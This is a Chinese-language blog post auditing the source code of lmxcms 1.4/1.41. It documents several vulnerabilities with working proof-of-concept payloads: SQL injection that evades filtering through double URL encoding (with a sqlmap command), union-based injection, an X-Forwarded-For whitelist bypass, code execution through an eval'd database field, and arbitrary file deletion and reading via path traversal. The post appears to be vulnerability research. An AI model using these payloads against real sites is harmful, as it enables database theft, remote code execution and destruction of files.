 ```yaml
---
title: lmxcms1.41源码审计
copyright: true
date: 2022-02-10 14:52:26
tags: 渗透测试
---
```

lmxcms源码审计
<!-- more -->
**1.4前台sql注入漏洞**  
c/index/TagsAction.class.php  
1.构造函数通过_POST方式获取name变量  
2.p函数对数据校验，过滤关键字+addslashes转义  
3.通过delHtml函数（strip_tag函数）去除标签对，进行一次url编码  
4.sql拼接查询   
![1.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/1.png?raw=true)  
![2.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/2.png?raw=true)  
![3.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/3.png?raw=true)  
数据检查后进行了一次urldecode，可以通过两次url编码绕过addslashes函数的转义  
```
poc: 'and (updatexml(1,concat(0x7e,(database()),0x7e),1)) and '1'='1  

两次Urldecode：http://127.0.0.1:8081/lmxcms1.4/index.php?m=tags&a=index&name=%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%37%35%25%37%30%25%36%34%25%36%31%25%37%34%25%36%35%25%37%38%25%36%64%25%36%63%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%63%25%33%31%25%32%39%25%32%39%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%37%25%33%31%25%32%37%25%33%64%25%32%37%25%33%31
```
![4.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/4.png?raw=true)  
lmx1.txt  
```
GET /lmxcms1.4/index.php?m=tags&a=index&name=1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=jiit711t06f5plsu8fo7bbqla2; XDEBUG_SESSION=XDEBUG_ECLIPSE
Upgrade-Insecure-Requests: 1
```
sqlmap：  
```
python2 sqlmap.py -r lmx1.txt --technique=E -v3 --tamper=chardoubleencode -p name --dbs
```
<br>
**1.4/1.41后台sql注入漏洞**  
c/index/AcquisiAction.class.class.php  
POST的参数未过滤，但后台本身可以执行sql语句（无回显），此漏洞危害较低  
![5.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/5.png?raw=true)  
```
poc：1' and updatexml(0,concat(0x7e,database()),1) and '1
```
![6.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/6.png?raw=true)  
c/admin/AcquisAction.class.php 中 311行查询时对获取的lid参数未检验，且sql语句直接拼接，导致sql注入  
![7.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/7.png?raw=true)  
![8.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/8.png?raw=true)  
```
Poc: http://127.0.0.1:8081/lmxcms1.4/admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,(select+1+and+(updatexml(1,concat(0x7e,(select+database()),0x7e),1))),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
![9.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/9.png?raw=true)  
<br>
**1.4/1.41绕过ip白名单**  

后台ip白名单可通过X-Forwarded-For 绕过  
![10.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/10.png?raw=true)  
<br>
**1.4/1.41后台任意代码执行**
c/admin/AcquisAction.class.php 中 318行eval执行了$temdata['data']参数，该参数的值是从lmx_cj_list数据表中查询出的array字段的值，而查询时存在sql注入导致该字段可控，从而导致任意代码执行。  
![11.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/11.png?raw=true)  
```
Poc: admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,'1;system(\'ipconfig\');',1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
![12.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/12.png?raw=true)  
<br>
**1.4/1.41 后台任意文件删除**  
c/admin/FileAction.class.php 中使用unlink方法删除文件，unlink方法调用php unlink方法，此处未对传入的路径做检查，存在任意文件删除。  
![13.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/13.png?raw=true)  

poc:  
```
POST /lmxcms1.4/admin.php?m=File&a=delete HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/lmxcms1.4/admin.php?m=File&a=index&type=0
Upgrade-Insecure-Requests: 1

type=0&delImages=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87&fid%5B%5D=7#####/test.txt
```
其中test.txt在index.php 同级目录下，且可使用..进行目录穿越。  
<br>
**1.4/1.41 后台任意文件读取**  
c/admin/TemplateAction.class.php  
![14.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/14.png?raw=true)  
![15.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/15.png?raw=true)  
![16.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/16.png?raw=true)  
poc:
```
http://localhost:8081/lmxcms1.4/admin.php?m=Template&a=editfile&dir=../flag.txt
```

实战中限制多  
1.前台sql注入dump出的密码哈希值无法直接爆破（有Install时随机的盐值保护），直接爆破web界面有错误次数限制。密码hash =md5(sha1(data+ random number(9位))  
2.在Mysql5.6.34版本以后由于secure_file_priv的限制又无法写马。  
3.命令执行漏洞在后台。  
